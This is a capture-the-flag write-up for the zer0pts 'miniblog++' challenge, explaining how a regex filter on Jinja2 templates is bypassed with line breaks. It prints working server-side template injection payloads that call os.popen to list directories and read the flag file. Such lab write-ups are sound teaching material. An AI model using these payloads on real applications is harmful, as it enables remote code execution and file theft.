









# miniblog++

## 📄 Description

I need to concentrate on the backup feature.



## 💻 Explore the website

There is a form to login.



I don't need to register, so I use `username = a` and `password = b` to test.

There are three buttons/features: `NEW`, `EXPORT`, `IMPORT`.

`NEW` button allows user to create a post on user's account.



When I saw `{{title}}` in the pop-up form, I thought about SSTI Jinja2. So I tested:




Maybe input is filtered.

I continued to test all the features:

* `NEW` button: creates post

* `EXPORT` button: allows user to download encrypted file for backup.

* `IMPORT` button: allows user to upload backup file.

Maybe I can import arbitrary content (backup feature is mentioned in description) to exploit SSTI. But someone in Discord talked about unintended way.

## 🧑‍💻 Processing:
**app.py:**

There are some filter stages:
* `{%` is prohibited.
* All the words formed from `r"{{.*?}}"` have to match this form `r"{{!?[a-zA-Z0-9_]+}}"`.

Look at the dot in ``r"{{.*?}}"``. 



I can bypass using line breaks. 🤣



I use RCE payload:

```py
{{ 
namespace.__init__.__globals__.os.popen('ls ../../').read() }}
```



```py
{{ 
namespace.__init__.__globals__.os.popen('cat ../../flag-wowRCEwow.txt').read() }}
```



**🚩Flag: `zer0pts{You_obtained_a_Bachelor_of_ZIP}`**

## P/S:
This is unintended way to solve this challenge. After realizing unintended way, zer0pts team released a harder version.